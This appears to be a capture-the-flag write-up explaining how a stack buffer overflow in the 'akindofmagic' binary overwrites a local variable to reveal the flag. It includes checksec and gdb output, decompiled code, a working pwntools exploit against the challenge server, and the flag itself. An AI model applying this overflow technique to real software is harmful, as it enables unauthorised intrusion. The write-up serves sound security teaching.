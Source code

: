 # A Kind of Magic

by ZeroDayTea

You're a magic man aren't you? Well can you show me? nc 143.198.184.186 5000

## Installation

In this challenge we were given an ELF-64bit named `akindofmagic` with no canary, NX enabled, and PIE is also enabled.

```
$ file akindofmagic; checksec akindofmagic 
akindofmagic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c2529d1bf8b4d4717af0728e24730b6a407050d9,
for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/akindofmagic'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's try to run it

```
$ ./akindofmagic                          
Is this a kind of magic? What is your magic?: 
chicken nugget
You entered chicken nugget

Your magic is: 0
You need to challenge the doors of time
```

It seems that the program will print our input and there is `Your magic is: 0` which obviously kinda odd. Let's open the program using ida to see what the source code looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v7; // [rsp-38h] [rbp-38h]
  unsigned int v8; // [rsp-Ch] [rbp-Ch]
  __int64 v9; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v9 = v3;
  v8 = 0;
  sub_1090("Is this a kind of magic? What is your magic?: ", argv, envp);
  sub_10D0(_bss_start);
  sub_10C0(&v7, 64LL, stdin);
  sub_10B0("You entered %s\n", &v7);
  v4 = v8;
  sub_10B0("Your magic is: %d\n", v8);
  sub_10D0(_bss_start);
  if ( v8 == 1337 )
  {
    sub_1090("Whoa we got a magic man here!", v4, v5);
    sub_10D0(_bss_start);
    sub_10A0("cat flag.txt");
  }
  else
  {
    sub_1090("You need to challenge the doors of time", v4, v5);
    sub_10D0(_bss_start);
  }
  return 0;
}
```

From the main function, it seems that we need to overflow the input and change the `v8` variable. Since the program will also print the value inside the `v8` variable, we could check if our overflow is reaching v8 or not.

First, we could use gdb to create a pattern.
```
$ gdb -q ./akindofmagic
Reading symbols from ./akindofmagic...
(No debugging symbols found in ./akindofmagic)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/akindofmagic 
Is this a kind of magic? What is your magic?: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
You entered AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AA
Your magic is: 1094796865
You need to challenge the doors of time

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the `v8` variable.
```
gdb-peda$ pattern offset 1094796865
1094796865 found at offset: 44
```

Nice, we got the offset/padding. Now we need to make the `v8` variable turns into 1337 in integer or 0x539 in hexadecimal.
```python
from pwn import *

padding = 44 # offset from the input to variable v8
hexNum = 0x539 # the value that we need to overwrite to v8

host = "143.198.184.186"
port = 5000

s = connect(host, port)

# receiving the first line of the program output
print(s.recvline())

# generating the payload
payload = b""
payload += b"A"*padding
payload += p64(hexNum)

# send the payload to the program
s.sendline(payload)

# receiving the rest of the program output
print(s.recvall())

s.close()
```

Now all we need to do is just run the program
![](akindofmagic.png)

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`